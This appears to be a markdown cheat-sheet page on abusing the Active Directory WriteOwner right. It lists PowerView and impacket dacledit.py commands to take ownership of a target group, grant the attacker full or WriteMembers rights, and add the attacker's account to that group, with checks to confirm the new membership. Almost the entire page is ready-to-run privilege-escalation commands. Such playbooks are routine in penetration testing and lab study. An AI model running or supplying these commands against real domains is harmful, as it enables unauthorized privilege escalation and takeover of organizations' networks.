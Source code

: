 ```yaml
---
title: "WriteOwner/Own"
date: 2024-7-27
tags: ["WriteOwner", "active driectory", "ad", "Windows", "own", "dacledit"]
---
```


### Abuse #1 : Change owner of the group

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView.ps1

<div>

```console
. .\PowerView.ps1
```

</div>

#### 2. Change owner

<div>

```console
Set-DomainObjectOwner -Identity <TARGET_GROUP> -OwnerIdentity <USER>
```

</div>

{{< /tabcontent >}}

### Abuse #2 : Add user to the group

{{< tab set2 tab1 active >}}Linux{{< /tab >}}
{{< tab set2 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 0. Install latest impacket (included dacledit.py)

<div>

```console
git clone https://github.com/fortra/impacket.git
```

```console
cd impacket
```

```console
pip3 install .
```

</div>

#### 1. Add domain object

<div>

```console
sudo ntpdate -s <DC> && dacledit.py -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target <TARGET_GROUP> -action write -rights WriteMembers
```

</div>

#### 2. Add group member

<div>

```console
kinit <USER>
```

```console
sudo ntpdate -s <DC> && net rpc group addmem <TARGET_GROUP> <USER> -U <USER> --use-kerberos=required -S <DC> --no-pass
```

</div>

#### 3. Check

<div>

```console
sudo ntpdate -s <DC> && net rpc group members <TARGET_GROUP> -U <USER> --use-kerberos=required -S <DC> --no-pass
```

</div>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

#### 1. Import PowerView.ps1 

<div>

```console
. .\PowerView.ps1
```

</div>

#### 2. Create cred object (runas) \[optional\]

<div>

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

</div>

#### 3. Add user to group

<div>

```console
Add-DomainObjectAcl -TargetIdentity <TARGET_GROUP> -PrincipalIdentity '<DOMAIN>/<USER>' -Rights All -DomainController <DC> -Credential $cred
```

```console
Add-DomainGroupMember -Identity <TARGET_GROUP> -Members <USER> -Credential $cred
```

</div>

#### Check

<div>

```console
Get-DomainGroupMember -Identity <TARGET_GROUP> -Domain <DOMAIN> -DomainController <DC> -Credential $cred | fl MemberName
```

```console
# Or
net user <USER>
```

```console
# Exit current sessions or re-login
whoami /groups
```

</div>

{{< /tabcontent >}}

<br>